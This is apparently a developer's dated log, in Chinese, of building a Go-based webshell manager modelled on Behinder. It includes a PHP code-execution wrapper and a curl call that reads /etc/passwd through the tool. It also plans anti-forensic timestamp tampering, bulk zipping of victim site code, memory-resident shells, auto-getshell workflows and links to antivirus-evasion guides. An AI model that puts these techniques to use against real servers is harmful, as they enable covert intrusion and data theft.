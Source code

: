 
## 2025-6-9
对于多个webshell的类型判断，使用不同的service层时，使用接口的多态特性。go中定义接口的方式如下：

shell_service.go
```go
type Shell interface {
	GetShellType() string
}

// PHPShell implements Shell interface for PHP
type PHPShell struct{}
```

php_service.go
```go
func (s *PHPShell) GetShellType() string {
	return "php"
}
```

打算先完成最重要的两个功能，分别是命令执行和文件管理。使用天蝎的api，避免直接硬编码shellcode，考虑重写加密函数。

## 2025-6-10
完成了shell的增删改查。


## 2025-6-20
- session管理
Todo FreshSession 作为心跳方法，使用ajax定时刷新。
- 加解密code实现
完成了PHP异或加密
~~Todo 统一规范加解密，加密完成后使用base64编码掉~~

## 2025-6-21
- 数据库password设置为字符串类型不方便，每次都要转换烦
设置了随机useranget、动态密钥（时间戳）、优化了代码结构
打算参考1panel中的文件、数据库管理前后端实现，自己写估计bug很多


## 2025-6-22
继续完善文件管理功能
jq的简单使用，-r参数避免换行符\n被转义
```shell
curl --location 'http://127.0.0.1:8989/api/v1/webshells/FileShow/1' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-urlencode 'path=/etc/passwd' | jq -r '.target_file_content'
```
经过我的思考，第二阶段加密算法可以和第一阶段不一样，更具有迷惑性。这里将第二阶段的密钥偏移值进行了修改。  
ExecCode方法，学到了一个trick。在PHP中使用输出缓冲。避免直接输出结果，而是先存储在缓冲区中，等待加密再返回。
```php
function main() {
	ob_start(); // 开始输出缓冲
	%s          // 执行传入的代码
	return ob_get_clean(); // 获取缓冲区内容并作为返回值
}
```
SocketsProxy的意义是，当服务端没有可执行文件的执行权限时，可以通过PHP脚本完成内网探测工作。  
Todo 对于数据库的的操作实现，可以只提供一个sql语句输入框，避免书写过多代码。正好可以让使用者学习使用不同的SQL语句。  
这是因为PHP 原生支持连接多种数据库和缓存系统，但我更推荐直接使用PDO。  
> PDO 支持多种主流数据库（如 MySQL、PostgreSQL、SQLite、SQL Server、Oracle 等），是一个强大的数据库抽象层，适合需要跨数据库灵活性的项目。  
现在难点只剩下文件管理的具体实现，前后端渲染、交互问题了。对我现在来说有点复杂，因为俺不会前端。当前我更需要的功能室一键压缩网站目录下的所有文件，方便获取代码。  
Todo 提供api修改文件的创建时间，迷惑对手  
webshell免杀参考  
https://github.com/AabyssZG/WebShell-Bypass-Guide  
https://github.com/LandGrey/webshell-detect-bypass  
https://github.com/cseroad/Webshell_Generate

## 2025-6-23
- 压缩功能（文件管理的一部分）
- 代码执行功能
- 数据库连接、查询功能
mysql -h localhost -P 3306 -u root -p

## 2025-6-24
- 阅读了天蝎的Java、dotnet、asp实现  
发现 Java是通过动态修改字节码的方式注入第一阶段参数的，在go中没法直接操作。解决方法如下  
将jsp、aspx服务端修改:  
考虑使用session来传入字节码，在服务端获取所有必要参数进行session注册就行了。  
sign分割逻辑：shellcode_key1-value1,key2-value2,key3-value3,...  

对于asp，直接使用类似于php的方式  
codestr.append("\r\ncall main(" + paraList.toString() + ")");  


## 2025-6-25
完成了对于Java的交互，aspx和asp获取不到post数据，不知道是出了什么问题。ashx测试成功  

## 2025-6-28
修复了Java的shellcode参数传递问题，之前直接使用UTF-8编码的字符串索引会导致shellcode字节丢失，现在直接从后往前索引5个字节，避免了这个问题。  
- 计划支持dotnet的各种trick，Java内存马。后面联动nuclei和bp进行自动getshell，这里注意net的内存马需要发送心跳包维持存活  
- 计划支持suo5正向代理
- 静态页面欺骗，可以参考下 https://github.com/xiaogang000/XG_NTAI